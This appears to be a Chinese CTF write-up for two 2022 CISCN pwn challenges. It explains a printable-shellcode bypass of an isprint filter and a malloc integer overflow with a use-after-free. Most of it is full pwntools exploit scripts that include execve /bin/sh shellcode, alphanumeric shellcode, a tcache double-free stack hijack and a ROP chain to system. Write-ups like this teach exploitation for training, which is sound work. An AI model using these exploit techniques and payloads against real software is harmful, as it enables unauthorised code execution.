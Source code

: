 ```yaml
---
title: 2022 ciscn初赛 pwn Writeup
date: 2022-05-30 11:52:32 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=24/
pin: false
published:
---
```


![image-20220530115403566](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115403566.png)

## login-nomal(可视化shellcode)

一道类VMpwn，逆出输入方式，发现功能二会开辟一片可执行的空间，直接执行写入的shellcode，这里要绕过isprint，用Alpha3生成可供call跳转执行的可见字符shellcode

![image-20220530115617543](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115617543.png)

![image-20220529191312430](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191312430.png)

这里讲一下shellcode的生成

先clone一个编译好的alpha3

```bash
git clone https://github.com/TaQini/alpha3.git
```

生成一个shellcode文件

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

```bash
python sc.py > shellcode
# 这里要在文件夹外生成，然后拖进alpha3文件夹即可
cd ~/alpha3
./shellcode_x64.sh rdx #利用脚本生成所<call 寄存器>的shellcode，x86同理
```

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./login')
elf = ELF("./login")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def send(con):
	sla(">>> ",con)

def login():
	send("opt: 1\n\r"+'msg: ro0t \n\r\n')

def exita():
	send("opt: 3\n\r"+'msg: eX1t \n\r\n')

def copy(con):
	send("opt: 2\n\r"+'msg: '+con+' \n\r\n')

login()
pay = 'Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00'
copy(pay)
p.interactive()
```

## newest_note(malloc int溢出)

添加权限，执行程序。添加debug信息，把glibc-all-in-one里下好的debug版本的.build放到/usr/lib/debug下。

```bash
sudo chmod +x newest_note
sudo chmod +x libc.so.6
sudo chmod +x ld-linux-x86-64.so.2

cd /usr/lib/debug
sudo mv .build-id/ .build-id.bak
cd ~
sudo mv ~/.build-id/ /usr/lib/debug
```

![image-20220530115802288](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115802288.png)

程序已经patch好了，漏洞点在于malloc时8*了一个int类型，造成溢出，从而实现申请小堆但idx极大，实现了任意地址泄露和任意地址写

![image-20220529191907619](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191907619.png)

UAF漏洞

![image-20220529192244648](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529192244648.png)

利用任意地址泄露泄露出栈地址以及libc偏移，free+UAF以及key和heap_base，再用一个doublefree，劫持栈rip执行输入的rop链

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./newest_note')
# p = remote("39.107.153.91","30623")
elf = ELF("./newest_note")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx,con='a'):
    sla(": ",1)
    sla("Index: ",idx)
    p.sendafter('Content: ',con)

def show(idx):
    sla(": ",3)
    sla("Index: ",idx)

def dele(idx):
    sla(": ",2)
    sla("Index: ",idx)

sla("How many pages your notebook will be? :",str(0x20005000))
show(0x487f5)
stack_addr = uu64()
show(0x4899a)
libc_base = uu64() - 0x218cc0
lg("libc_base")
ret = 0x000000000002d9b9+libc_base
for i in range(10):
    add(i,"a"*0x30)

dele(0)

for i in range(6):
    dele(i+1)

show(0)
ru("Content: ")
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_addr = key << 12
lg("heap_addr")

dele(7)
dele(8)
dele(7)

for i in range(7):
    add(i,"a"*0x30)
add(7,p64((stack_addr-0x150-0x8) ^ key ))

add(0,"e4l4")
add(1,"e4l4")
pop_rdi = 0x000000000002e6c5 + libc_base
add(2,p64(0) +p64(ret)+ p64(pop_rdi) + p64(libc_base + libc.search("/bin/sh\x00").next()) + p64(libc_base + libc.sym["system"]) )
p.interactive()
```

